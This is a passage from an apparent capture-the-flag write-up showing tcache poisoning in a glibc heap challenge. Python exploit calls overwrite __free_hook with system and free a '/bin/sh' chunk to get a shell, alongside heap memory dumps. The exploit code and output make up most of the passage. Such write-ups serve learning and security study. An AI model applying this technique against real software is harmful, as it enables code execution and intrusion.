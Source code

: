 now that we have chunk D in tcache 0x21, chunk E in tcache 0x51 we will malloc
E back from tcache and then free it again but after the second free it will
end up in tcache 0x21 since we changed it's size

```  
create(0,0x40,b'DDDDDDD') <--- bring E back from tcache and free F in tcache
0xa0  
payload += p64(__free_hook) <--- update the payload with __free_hook  
create(0,0x90, payload) <--- malloc F back and use the underflow again but now
write __free_hook in E's fw  
```

We have now successfuly poisoned the 0x21 size tcache as it went from E->D to
E->__free_hook and count did not change.

```  
0x56257ccda290: 0x0000000000000000      0x0000000000000021 <--- chunk D. Free  
0x56257ccda2a0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2b0: 0x0000000000000000      0x0000000000000021 <--- chunk E. Free.
Poisoned with __free_hook  
0x56257ccda2c0: 0x00007f6a2f4b0e70      0x000056257ccda000  
0x56257ccda2d0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2e0: 0x0000000000000000      0x0000000000000000  
0x56257ccda2f0: 0x0000000000000000      0x0000000000000000  
0x56257ccda300: 0x0000000000000000      0x00000000000000a1 <-- chunk F. Malloc  
0x56257ccda310: 0x4242424242424242      0x4242424242424242  
0x56257ccda320: 0x4242424242424242      0x4242424242424242  
0x56257ccda330: 0x4242424242424242      0x4242424242424242  
0x56257ccda340: 0x4242424242424242      0x4242424242424242  
0x56257ccda350: 0x4242424242424242      0x4242424242424242  
0x56257ccda360: 0x4242424242424242      0x4242424242424242  
0x56257ccda370: 0x4242424242424242      0x4242424242424242  
0x56257ccda380: 0x4242424242424242      0x4242424242424242  
0x56257ccda390: 0x0000000000000000      0x0000000000000000  
0x56257ccda3a0: 0x0000000000000000      0x00000000000000f1  
```

All that is left to be done is to malloc 2 chunks of size 0x21 without freeing
them in between. For that we again use reset(0). And then....

```  
create(0,0x10,b'RRRR') <--- malloc E from tcache  
reset(0) <--- reset the pointer so E does not get freed  
create(0,0x10,p64(system)) <--- malloc __free_hook. Overwrite it with system  
#ceate chnk z 0x90 pa /bin/sh\0 v hex

create(0,0x90,b"/bin/sh")<--- we will free this chunk to get a shell  
#create(0,0xe,"heheshel")

p.sendline('1')<--- just call create again to trigger free  
p.sendline('0')<--- send index 0

p.interactive()  
```
